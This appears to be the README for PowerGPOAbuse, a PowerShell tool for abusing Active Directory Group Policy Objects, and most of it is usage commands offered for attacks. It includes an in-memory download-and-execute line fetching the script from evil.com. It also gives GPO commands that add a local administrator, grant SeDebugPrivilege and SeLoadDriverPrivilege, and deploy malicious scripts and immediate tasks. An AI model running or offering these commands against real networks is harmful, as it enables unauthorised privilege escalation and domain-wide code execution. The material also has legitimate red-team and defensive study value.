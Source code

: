 # PowerGPOAbuse
Powershell version of SharpGPOAbuse for those who can't compile or if their C2 can't execute .NET Assembly straightly from memory. Highly inspired by the [original](https://github.com/FSecureLABS/SharpGPOAbuse) C# version and the amazing [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). 

Usage
=====================

Import the script
-----------------

* <code>PS> Import-Module .\PowerGPOAbuse.ps1</code>

* <code>PS> . .\PowerGPOAbuse.ps1</code>

* <code>PS> IEX (New-Object System.Net.WebClient).DownloadString('https://evil.com/PowerGPOAbuse.ps1')</code>

Exploitation
-----------------

* Adding a localadmin <code>PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'</code>

* Assign a new right <code>PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'</code>

* Adding a New Computer/User script <code>PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'</code>

* Create an immediate task <code>PS> Add-UserTask/Add-ComputerTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator</code>

Future changes
=====================

New exploitation functionality, better optimization, better flexibility.

if you find any bugs, idea to improve the script, or any feedback, feel free raise an issue or propose a pull requests ! 
